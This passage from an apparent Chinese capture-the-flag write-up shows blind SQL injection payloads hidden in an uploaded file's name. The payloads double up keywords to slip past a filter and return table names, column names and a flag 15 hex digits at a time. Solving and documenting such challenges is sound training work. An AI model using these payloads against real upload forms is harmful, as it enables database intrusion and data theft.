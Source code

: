 拼接起来`3737363536323546373537303643364636313634`

两次hex解码得到`web_upload`.

其实他这里一下子可以爆破15位，因为多了的话就会转化为科学计数法，就会丧失精度。。。

## 爆列名

构造`0'+(substr((selselectect hex(hex((selselectect table_name frfromom information_schema.tables where table_schema='web_upload' limit 1,1)))),1,15))+'.jpg`

得到`363836353643364`

按照上述方法，依次得到`336463546363636`、`433631363735463`、`639373335463638`、`363537323635`

拼接`363836353643364336463546363636433631363735463639373335463638363537323635`

解码得到`hello_flag_is_here`

## 爆列名

构造`0'+(substr((selselectect hex(hex((selselectect column_name frfromom information_schema.columns where table_name='hello_flag_is_here' limit 0,1)))),1,15))+'.jpg`

依次得到`363935463631364435463636364336313637`

解码得到`i_am_flag`

## 爆内容


构造`0'+(substr((selselectect hex(hex((selselectect i_am_flag frfromom hello_flag_is_here)))),1,15))+'.jpg`

得到第二次的是后少了以为，第三次的时候还是十六位，说明第二次爆出来的最前面少个0.

补全得 3231323135463430364435463534363832453635354634363231364336313637

解码`!!_@m_Th.e_F!lag`